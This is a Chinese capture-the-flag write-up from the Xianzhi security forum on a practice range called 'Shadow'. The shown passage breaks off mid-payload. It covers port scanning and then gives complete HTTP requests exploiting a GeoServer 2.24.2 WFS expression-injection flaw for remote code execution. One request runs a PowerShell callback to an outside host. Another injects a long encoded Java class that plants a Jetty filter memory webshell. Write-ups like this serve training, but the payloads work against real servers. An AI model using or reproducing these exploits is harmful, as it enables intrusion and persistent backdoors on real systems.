# cyberstrikelab-shadow靶场首杀-先知社区

> **来源**: https://xz.aliyun.com/news/18577  
> **文章ID**: 18577

---

# Shadow

## 信息收集

```
172.23.23.55:139 open
172.23.23.55:135 open
172.23.23.55:445 open
172.23.23.55:80 open
[*] alive ports len is: 4
start vulscan
[*] WebTitle http://172.23.23.55       code:404 len:866    title:Error 404 - Not Found
[*] NetInfo
[*]172.23.23.55
   [->]WIN-0NN7AM4KA98
   [->]172.23.23.55
   [->]10.0.0.33
```

## 打点 - FLAG 1

得到版本号 `2.24.2` 找漏洞

参考： <https://mp.weixin.qq.com/s/Au2GTOiXr2jndcnlyNAalQ>

```
POST /geoserver/wfs HTTP/1.1
Host: 172.23.23.55:80
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.97 Safari/537.36
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type:application/xml
Content-Length:368

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>
    exec(java.lang.Runtime.getRuntime(),'powershell -Command "wget http://172.16.233.2 -UseBasicParsing"')
  </wfs:valueReference>
</wfs:GetPropertyValue>
```

测试能反连，好消息



打内存马

```
POST /geoserver/wfs HTTP/1.1
Host: 172.23.23.55:80
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/xml
Content-Length: 20358

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'
var str="yv66vgAAADEBvgEADmphdmEvbGFuZy90ZXN0BwABAQAQamF2YS9sYW5nL09iamVjdAcAAwEADWdldFVybFBhdHRlcm4BABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEABENvZGUBAAIvKggACAEADGdldENsYXNzTmFtZQEAJWNoLnFvcy5sb2diYWNrLlNlcnZsZXRSZXF1ZXN0TWFGaWx0ZXIIAAsBAA9nZXRCYXNlNjRTdHJpbmcBAApFeGNlcHRpb25zAQATamF2YS9pby9JT0V4Y2VwdGlvbgcADwEAEGphdmEvbGFuZy9TdHJpbmcHABEBCSBINHNJQUFBQUFBQUEvNTFXYVhNVVZSUTliN2FlVEJyRndVUUdCQlVSc284c1VaZ2drb1F0T2dsSUlCcUNTMmVtWjRISmROTGRFMG5jY0Y5dzMvZGRjVVBGa2lCYVdueXd0TFQ4YUdsUjVSZjlHVmE1bk5lZFRHYXlTVm1aOUh0OTMzM24zWHZ1OHZySHY3LzhCc0FxSEJPNEpKR0pEaGxXTkdlays3WEVnV2kzYmc3bmRIdVhQbFRRTGJ0VDI1ck4yYnFwUUFqTTM2OE5hOUdjbGs5SGQvVHYxeE8yQXEvQXVWSjZNR3E1KzZJVCtuNkJ3SVpzUG10dkZQRFcxUFlJK05xTnBDNXdkanliMTdzS0EvMjZ1VnZyejFFU2poc0pMZGVqbVZuNVBpNzAyWm1zSmJBeWZrYjJ0YWhRRUF6Qmg3TUVna25EbFFyMDFjVEx6U3ZmM2pMYnFqVm81QzE5NnJLTDJwN1JzdmtXNmRHQ1NVSzJIRXpvZzNiV3lDc0kwL2lrWm1zQ25yNDJnY3BFVHJPc3VLRWxwVUVSQnpLYUo5cWVYZkgyeWFVVzhqV2cyeGtqS2JBb1BnbHM2cWtjcVk1Mk9tdlU4aE52ZEZUZ25CSWxCNGRyM2tUT2tueE9yblRiWmphZjVwSWdwMVh4R1F6bTJsbFdHU3NDUytkbWpVRzB5cGtTdU9BL3FDUVJxVW42QkJiUHdhMkFZazZZc25LS1hzYTJCNlBiK1pobVU5QXNHak0xNnRNM0ZhMDZmeTVQRmRRSkxKblRNUVVOak9xc3ZpaG9ZbzJka1FzS0xoVlljV2FHSzFoZFZvOXVtQldzRlpqWGJiTk9PclhCOFVJS1pYU1pYMTNhZ0s3aWNpeXBnQWZyQkNyU3VyMWRkNU55UmMzMGpLbWRMbElSUTBzbDI4WUdCdE5GN2RGeUJjSnVkR0d2WkJBU1J0Nm0zMHpEeGFXb0pNUHNsbjdtRTNwTDdWNFZyV2dMb1JudExKWkJKcStLTFM3R1ZnR1ZwdTNVVEJwTUZsVnNkdy90WUo0bWpUYk4waTlidTFsUE9MMmtlaWJEKzlwVVhJMTRpR0NkQXVmTlVtOEtkdkNrMGtVRjE1Unh1anRqMGtjRjNlUTBVVEJOUFcrN0l2YThtbEo2WENucDJZT2VFSGJqV2xZYVhXZ25FL3BCdTcycy9NczJscGEvaWw3c2xidjdCR3ByK3NyYVJNc3NlMnA3Wk51N1BvU2R1SUZuenFpazRDWkdLNm1uMkhVZGNSRDlyTjhwdWdyb2FCV2J5cVM4ZzlhbjVmNDBRN1M3ZCtjV0ZWa3Nya0FHKzZsSC94aUVuR2JxeWM3eHJyVnBobUQwVFd0U3RiUDNOaFU1RElTZ2crMWg0V3hhQ2dZWkQwdTNXeE1KM2JLeTdtVlJzMWR5WWNJS1lRaTJGSFM0NUF5SGFQRE43SzNaL0xCeGdLcnJTNjEwcjdFeUs4ZEZ0ZE5GS2tZd0t2RnZJYUY1L2VhT3ZHVnJUT2VwNlZCVXZ3MjNTMi91NE9uTWZFMjI1cW9aVHBmVmNDZnVrcGZYM1VVVy8rK05KYjJlajNzckVjVjlyUDFpbDdjbWJxdXNFZTNZVVhKYlBjaHVQeU5raWM1aE51U2tVM0ptK2UweTdnSDVIdGJNWnQ0L2xrMk5hcXVRYnhySVdvbW10dGJ1TFJQVmFnYnhCSEZTaHRPSzJCVC9vK200NmFMaUtUd3RXWHlHMWVyYTBGWklwU1RhYzI0VGM5TkN4UXR1N3J3NFhzTk5CVHViYTNMYlJSQXZrd3MzWlYxTFhtV25raVVxenlBejA2dVNCNytPTjJSTTNtVDQzSU9EZUp1ZXltOGFYbmRUd3pUZTg0MThLcHQyUGc3VVZJbUU5OHhjK2c2LzVNNFk0VVc5S29nUGFlNGVhamEycHRsMWdqaEtjemVQYWtQcHd1aG9FSi9nSXZZMkgyZ1l2SHl5Yy9KclRzam03b3dibmRIUEdiK0orS3pnV3l0M0NJN24xWjNBMlhYaGo0NWpXMTM0NCtOWVh4Zis5RGcySGVPU0J5RStBNDVhSmY4QTFkM0NjWjREUEIvblVJdHdIaStCcGNZZjlhZXdLdVpyT0lVMU1YL0VWL2M1MXAvRUZSNThoK01sYjV4c0dzUG1GL0M2STl4MkVsZDVFQXRFQXQvaGNGMGtNSWF1bVBJVmR2WjZ2OGF1TDNEZEdQYWR3STJ4WUZnTEp3SmZRKy8xaGxQZHZiN1BjS0M3MXkrZll6QmlGWkVLM3hnS2tZcElrRHErWG05RW9jNVh5UFI2VCtBZ0ZlVTBvbndqWDhadzZ5bm9zVkFrTklaRGZsZmJSKzJJbjB2M1hIc0UvcGh5QkpXTjlRMG5jYjhYUnpBdkZwaDRPVWFQVy9FdHZzY0M4dkF6ZnVYb2RaanE0Z3hrSklBd1Y4NWx4VlZoQTZxcHZSQWRpR0FmRm1FVWkzRUk1K01vUS9JdExpREtVdnpBOFAyRVpjUmFRYlRsT0kxTDhEdFdPbnlPRXFrRHR4Q3Rpc0hieDk1VlRmNkRsRjlGMUFpNVA4cjNSVVFOOGF4SGlMeUU1NStteGxLaUIyUkV4cU1sWnhmeUpPSE1sdUZpK2lGbnkzbWFsNXEvOGZTVlRDSVZ2NkFHdFV5WHk3aGVqOEEvTkZKUjRGRlFyNkJSUVZUQktnVnJGRjdXUXNHQ1B5RThTaHNuRlhqQVNSY1BIc0xEUElaWHJwc2MrSXRTUDhlUjhKTmY0Tm5PaHZEelBqZUt6YVQ3cFFiR3dPZkVvTjROVEtyNCs3UXovQXAzZERXR1gyTXE2RlFXSEJubVcyTytDSWUzd3UrVUlrVjhzK0U0WGwvS2o0YUpXQzF5dUtGM2FLQzBFYXZSaEhXTVdKeGFrdmVOWEFsd1hUTEx6eVBHVU02OFhHOGt5NCtTcDlYWWhzZklzV1J4cE1qeENCNW5CSVRESFN0bmlMdzR0TWppWE1EL2Q1bE1MaW5OVG9XeGlxYVdXck5qUUxXN1dBUVdlQS92OHprQkpobitvRmpOOVk3R0RHRHJTdXEyQ1BZditaSWt4KzhOQUFBPQgAEwEABjxpbml0PgEAFShMamF2YS9sYW5nL1N0cmluZzspVgwAFQAWCgASABcBAAMoKVYBABNqYXZhL2xhbmcvRXhjZXB0aW9uBwAaAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAGZmlsdGVyAQASTGphdmEvbGFuZy9PYmplY3Q7AQAHY29udGV4dAEACGNvbnRleHRzAQAQTGphdmEvdXRpbC9MaXN0OwEABHRoaXMBABBMamF2YS9sYW5nL3Rlc3Q7AQAWTG9jYWxWYXJpYWJsZVR5cGVUYWJsZQEAJExqYXZhL3V0aWwvTGlzdDxMamF2YS9sYW5nL09iamVjdDs+OwEADmphdmEvdXRpbC9MaXN0BwAnAQASamF2YS91dGlsL0l0ZXJhdG9yBwApAQANU3RhY2tNYXBUYWJsZQwAFQAZCgAEACwBAApnZXRDb250ZXh0AQASKClMamF2YS91dGlsL0xpc3Q7DAAuAC8KAAIAMAEACGl0ZXJhdG9yAQAWKClMamF2YS91dGlsL0l0ZXJhdG9yOwwAMgAzCwAoADQBAAdoYXNOZXh0AQADKClaDAA2ADcLACoAOAEABG5leHQBABQoKUxqYXZhL2xhbmcvT2JqZWN0OwwAOgA7CwAqADwBAAlnZXRGaWx0ZXIBACYoTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwwAPgA/CgACAEABAAlhZGRGaWx0ZXIBACcoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9PYmplY3Q7KVYMAEIAQwoAAgBEAQANZ2V0RmlsdGVyTmFtZQEAJihMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmc7AQAMbGFzdERvdEluZGV4AQABSQEACWNsYXNzTmFtZQEAEkxqYXZhL2xhbmcvU3RyaW5nOwEAAS4IAEwBAAhjb250YWlucwEAGyhMamF2YS9sYW5nL0NoYXJTZXF1ZW5jZTspWgwATgBPCgASAFABAAtsYXN0SW5kZXhPZgEAFShMamF2YS9sYW5nL1N0cmluZzspSQwAUgBTCgASAFQBAAlzdWJzdHJpbmcBABUoSSlMamF2YS9sYW5nL1N0cmluZzsMAFYAVwoAEgBYAQALX2ZpbHRlck5hbWUBAAFpAQABagEADnNlcnZsZXRIYW5kbGVyAQARZmlsdGVySG9sZGVyQ2xhc3MBABFMamF2YS9sYW5nL0NsYXNzOwEAC2NvbnN0cnVjdG9yAQAfTGphdmEvbGFuZy9yZWZsZWN0L0NvbnN0cnVjdG9yOwEADGZpbHRlckhvbGRlcgEACmZpbHRlck1hcHMBAA10bXBGaWx0ZXJNYXBzAQATW0xqYXZhL2xhbmcvT2JqZWN0OwEAAW4BAAttYWdpY0ZpbHRlcgEACmZpbHRlck5hbWUBAAtmaWx0ZXJDbGFzcwEAD2phdmEvbGFuZy9DbGFzcwcAagEAHWphdmEvbGFuZy9yZWZsZWN0L0NvbnN0cnVjdG9yBwBsBwBlDAAKAAYKAAIAbwwARgBHCgACAHEBAAhnZXRDbGFzcwEAEygpTGphdmEvbGFuZy9DbGFzczsMAHMAdAoABAB1AQAPX3NlcnZsZXRIYW5kbGVyCAB3AQAFZ2V0RlYBADgoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvT2JqZWN0OwwAeQB6CgACAHsBAAdnZXROYW1lDAB9AAYKAGsAfgEACmlzSW5qZWN0ZWQBACcoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7KVoMAIAAgQoAAgCCAQAOZ2V0Q2xhc3NMb2FkZXIBABkoKUxqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7DACEAIUKAGsAhgEAJm9yZy5lY2xpcHNlLmpldHR5LnNlcnZsZXQuRmlsdGVySG9sZGVyCACIAQAVamF2YS9sYW5nL0NsYXNzTG9hZGVyBwCKAQAJbG9hZENsYXNzAQAlKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL0NsYXNzOwwAjACNCgCLAI4BAA5nZXRDb25zdHJ1Y3RvcgEAMyhbTGphdmEvbGFuZy9DbGFzczspTGphdmEvbGFuZy9yZWZsZWN0L0NvbnN0cnVjdG9yOwwAkACRCgBrAJIBAAtuZXdJbnN0YW5jZQEAJyhbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwwAlACVCgBtAJYBAAdzZXROYW1lCACYAQAMaW52b2tlTWV0aG9kAQBdKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzO1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DACaAJsKAAIAnAEAFGFkZEZpbHRlcldpdGhNYXBwaW5nCACeAQARamF2YS9sYW5nL0ludGVnZXIHAKABAARUWVBFDACiAF8JAKEAowwABQAGCgACAKUBAAd2YWx1ZU9mAQAWKEkpTGphdmEvbGFuZy9JbnRlZ2VyOwwApwCoCgChAKkBAA9fZmlsdGVyTWFwcGluZ3MIAKsBABdqYXZhL2xhbmcvcmVmbGVjdC9BcnJheQcArQEACWdldExlbmd0aAEAFShMamF2YS9sYW5nL09iamVjdDspSQwArwCwCgCuALEBAANnZXQBACcoTGphdmEvbGFuZy9PYmplY3Q7SSlMamF2YS9sYW5nL09iamVjdDsMALMAtAoArgC1CABaAQADc2V0AQAoKExqYXZhL2xhbmcvT2JqZWN0O0lMamF2YS9sYW5nL09iamVjdDspVgwAuAC5CgCuALoBABVpbnZhbGlkYXRlQ2hhaW5zQ2FjaGUIALwMAJoAegoAAgC+AQAgamF2YS9sYW5nL0NsYXNzTm90Rm91bmRFeGNlcHRpb24HAMABACtqYXZhL2xhbmcvcmVmbGVjdC9JbnZvY2F0aW9uVGFyZ2V0RXhjZXB0aW9uBwDCAQAfamF2YS9sYW5nL05vU3VjaE1ldGhvZEV4Y2VwdGlvbgcAxAEAIGphdmEvbGFuZy9JbGxlZ2FsQWNjZXNzRXhjZXB0aW9uBwDGAQAkamF2YS9pby9VbnN1cHBvcnRlZEVuY29kaW5nRXhjZXB0aW9uBwDIAQASY29udGV4dENsYXNzTG9hZGVyAQAGdGhyZWFkAQASTGphdmEvbGFuZy9UaHJlYWQ7AQAHdGhyZWFkcwEAE1tMamF2YS9sYW5nL1RocmVhZDsHAM4BABBqYXZhL2xhbmcvVGhyZWFkBwDQAQATamF2YS91dGlsL0FycmF5TGlzdAcA0goA0wAsAQARZ2V0QWxsU3RhY2tUcmFjZXMBABEoKUxqYXZhL3V0aWwvTWFwOwwA1QDWCgDRANcBAA1qYXZhL3V0aWwvTWFwBwDZAQAGa2V5U2V0AQARKClMamF2YS91dGlsL1NldDsMANsA3AsA2gDdAQANamF2YS91dGlsL1NldAcA3wEAB3RvQXJyYXkBACgoW0xqYXZhL2xhbmcvT2JqZWN0OylbTGphdmEvbGFuZy9PYmplY3Q7DADhAOILAOAA4wEAFWdldENvbnRleHRDbGFzc0xvYWRlcgEAJihMamF2YS9sYW5nL1RocmVhZDspTGphdmEvbGFuZy9PYmplY3Q7DADlAOYKAAIA5wEAE2lzV2ViQXBwQ2xhc3NMb2FkZXIBABUoTGphdmEvbGFuZy9PYmplY3Q7KVoMAOkA6goAAgDrAQAfZ2V0Q29udGV4dEZyb21XZWJBcHBDbGFzc0xvYWRlcgwA7QA/CgACAO4BAANhZGQMAPAA6gsAKADxAQAQaXNIdHRwQ29ubmVjdGlvbgEAFShMamF2YS9sYW5nL1RocmVhZDspWgwA8wD0CgACAPUBABxnZXRDb250ZXh0RnJvbUh0dHBDb25uZWN0aW9uDAD3AOYKAAIA+AEACVNpZ25hdHVyZQEAJigpTGphdmEvdXRpbC9MaXN0PExqYXZhL2xhbmcvT2JqZWN0Oz47CADlAQALY2xhc3NMb2FkZXIBABFXZWJBcHBDbGFzc0xvYWRlcggA/gEAB2hhbmRsZXIBAAhfY29udGV4dAgBAQEAD19jb250ZXh0SGFuZGxlcggBAwEADmh0dHBDb25uZWN0aW9uAQAFZW50cnkBAAx0aHJlYWRMb2NhbHMBAAV0YWJsZQgBBwgBCAEABXZhbHVlCAELAQAOSHR0cENvbm5lY3Rpb24IAQ0BAAtodHRwQ2hhbm5lbAEAB3JlcXVlc3QBAAdzZXNzaW9uAQAOc2VydmxldENvbnRleHQBAA5nZXRIdHRwQ2hhbm5lbAgBEwEACmdldFJlcXVlc3QIARUBAApnZXRTZXNzaW9uCAEXAQARZ2V0U2VydmxldENvbnRleHQIARkBAAZ0aGlzJDAIARsBABhIdHRwQ29ubmVjdGlvbiBub3QgZm91bmQIAR0KABsAFwEACWNsYXp6Qnl0ZQEAAltCAQALZGVmaW5lQ2xhc3MBABpMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwEABWNsYXp6AQACZTEBABVMamF2YS9sYW5nL0V4Y2VwdGlvbjsBAAFlAQAXTGphdmEvbGFuZy9DbGFzc0xvYWRlcjsBAA1jdXJyZW50VGhyZWFkAQAUKClMamF2YS9sYW5nL1RocmVhZDsMASkBKgoA0QErDADlAIUKANEBLQwAlAA7CgBrAS8MAA0ABgoAAgExAQAMZGVjb2RlQmFzZTY0AQAWKExqYXZhL2xhbmcvU3RyaW5nOylbQgwBMwE0CgACATUBAA5nemlwRGVjb21wcmVzcwEABihbQilbQgwBNwE4CgACATkIASIHASEBABFnZXREZWNsYXJlZE1ldGhvZAEAQChMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzczspTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsMAT0BPgoAawE/AQAYamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kBwFBAQANc2V0QWNjZXNzaWJsZQEABChaKVYMAUMBRAoBQgFFAQAGaW52b2tlAQA5KExqYXZhL2xhbmcvT2JqZWN0O1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DAFHAUgKAUIBSQEAD3ByaW50U3RhY2tUcmFjZQwBSwAZCgAbAUwBAA9maWx0ZXJDbGFzc05hbWUBAAxkZWNvZGVyQ2xhc3MBAAdkZWNvZGVyAQAHaWdub3JlZAEACWJhc2U2NFN0cgEAFExqYXZhL2xhbmcvQ2xhc3M8Kj47AQAWc3VuLm1pc2MuQkFTRTY0RGVjb2RlcggBVAEAB2Zvck5hbWUMAVYAjQoAawFXAQAMZGVjb2RlQnVmZmVyCAFZAQAJZ2V0TWV0aG9kDAFbAT4KAGsBXAEAEGphdmEudXRpbC5CYXNlNjQIAV4BAApnZXREZWNvZGVyCAFgAQAGZGVjb2RlCAFiAQAOY29tcHJlc3NlZERhdGEBAANvdXQBAB9MamF2YS9pby9CeXRlQXJyYXlPdXRwdXRTdHJlYW07AQACaW4BAB5MamF2YS9pby9CeXRlQXJyYXlJbnB1dFN0cmVhbTsBAAZ1bmd6aXABAB9MamF2YS91dGlsL3ppcC9HWklQSW5wdXRTdHJlYW07AQAGYnVmZmVyAQAdamF2YS9pby9CeXRlQXJyYXlPdXRwdXRTdHJlYW0HAWwBABxqYXZhL2lvL0J5dGVBcnJheUlucHV0U3RyZWFtBwFuAQAdamF2YS91dGlsL3ppcC9HWklQSW5wdXRTdHJlYW0HAXAKAW0ALAEABShbQilWDAAVAXMKAW8BdAEAGChMamF2YS9pby9JbnB1dFN0cmVhbTspVgwAFQF2CgFxAXcBAARyZWFkAQAFKFtCKUkMAXkBegoBcQF7AQAFd3JpdGUBAAcoW0JJSSlWDAF9AX4KAW0BfwEAC3RvQnl0ZUFycmF5AQAEKClbQgwBgQGCCgFtAYMBAANvYmoBAAlmaWVsZE5hbWUBAAVmaWVsZAEAGUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsBAARnZXRGAQA/KExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7DAGJAYoKAAIBiwEAF2phdmEvbGFuZy9yZWZsZWN0L0ZpZWxkBwGNCgGOAUUMALMAPwoBjgGQAQAeamF2YS9sYW5nL05vU3VjaEZpZWxkRXhjZXB0aW9uBwGSAQAgTGphdmEvbGFuZy9Ob1N1Y2hGaWVsZEV4Y2VwdGlvbjsBABBnZXREZWNsYXJlZEZpZWxkAQAtKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7DAGVAZYKAGsBlwEADWdldFN1cGVyY2xhc3MMAZkAdAoAawGaCgGTABcBAAx0YXJnZXRPYmplY3QBAAptZXRob2ROYW1lAQAHbWV0aG9kcwEAG1tMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwEAIUxqYXZhL2xhbmcvTm9TdWNoTWV0aG9kRXhjZXB0aW9uOwEAIkxqYXZhL2xhbmcvSWxsZWdhbEFjY2Vzc0V4Y2VwdGlvbjsBAApwYXJhbUNsYXp6AQASW0xqYXZhL2xhbmcvQ2xhc3M7AQAFcGFyYW0BAAZtZXRob2QBAAl0ZW1wQ2xhc3MHAaABABJnZXREZWNsYXJlZE1ldGhvZHMBAB0oKVtMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwwBqQGqCgBrAasKAUIAfgEABmVxdWFscwwBrgDqCgASAa8BABFnZXRQYXJhbWV0ZXJUeXBlcwEAFCgpW0xqYXZhL2xhbmcvQ2xhc3M7DAGxAbIKAUIBswoAxQAXAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24HAbYBAApnZXRNZXNzYWdlDAG4AAYKAMcBuQoBtwAXAQAIPGNsaW5pdD4KAAIALAAhAAIABAAAAAAAFQABAAUABgABAAcAAAAPAAEAAQAAAAMSCbAAAAAAAAEACgAGAAEABwAAABAA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